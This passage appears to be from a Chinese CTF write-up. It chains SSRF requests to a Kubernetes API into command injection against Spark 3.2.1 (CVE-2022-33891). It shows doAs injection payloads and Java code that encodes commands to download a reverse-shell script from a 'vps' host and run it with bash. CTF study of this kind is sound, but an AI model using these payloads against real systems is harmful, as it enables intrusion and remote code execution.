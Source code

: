 结合所有信息，你可以构造payload来进行对k8s进行攻击获取信息：

```http
url=https://127.0.0.1:6443/api/v1/namespaces/&Vcode=code....
url=https://127.0.0.1:6443/api/v1/namespaces/ctf/pods&Vcode=code...
```

你会发现一个名为ctf的命名空间，和一个在ctf下的pod，你可以拿到ip和port的信息以及部署名字"spark"：

```json
k:{containerPort:\"8080\"}
"hostIP": "10.12.22.6",
"podIP": "10.244.0.111",
"podIPs": [{"ip": "10.244.0.111"}]
```

![image-20220825105748008](http://img.l1near.top/e6c9d24ely1h5itt7q1alj21h00r2n6i.jpg)

![image-20220825110610433](http://img.l1near.top/e6c9d24ely1h5iu1xyuyhj21h20min8c.jpg)

最后，你可以通过ip和port信息进行ssrf访问到spark的首页面，并找到spark版本：3.2.1。

你可以搜到相关的CVE-2022-33891

![image-20220825111659673](http://img.l1near.top/e6c9d24ely1h5iud4zvy6j20kw0cejsx.jpg)

你会了解到他的doAS参数是使用bash来执行

![image-20220825112004059](http://img.l1near.top/e6c9d24ely1h5iuhhjkxjj214a08ywg1.jpg)

所以现在就到了常规的命令执行绕过`(反引号)，一些可行的绕过方法如下：

```shell
?doAs=;command
?doAs=$(command) (write by ADVambystoma)
```

最后就是有很多人共有的问题，对自己的payload进行了两次url编码，导致攻击失败，这是由于new URL()的解码问题；

可参考https://blog.csdn.net/weixin_39715513/article/details/114212587。

你可以使用java来构造payload：

```java
# 下载
String a = URLEncoder.encode(";curl http://vps:8888/rev.html>/tmp/rev.sh","utf-8");
String c = URLEncoder.encode(a,"utf-8");
System.out.println(c);
--------------------------------------------------
# 执行
String a = URLEncoder.encode(";bash /tmp/rev.sh","utf-8");
String c = URLEncoder.encode(a,"utf-8");
System.out.println(c);
```

![image-20220825113137449](http://img.l1near.top/e6c9d24ely1h5iuse92raj211e022dg7.jpg)

![image-20220825113452771](http://img.l1near.top/e6c9d24ely1h5iuvr45n4j214m04g3z7.jpg)
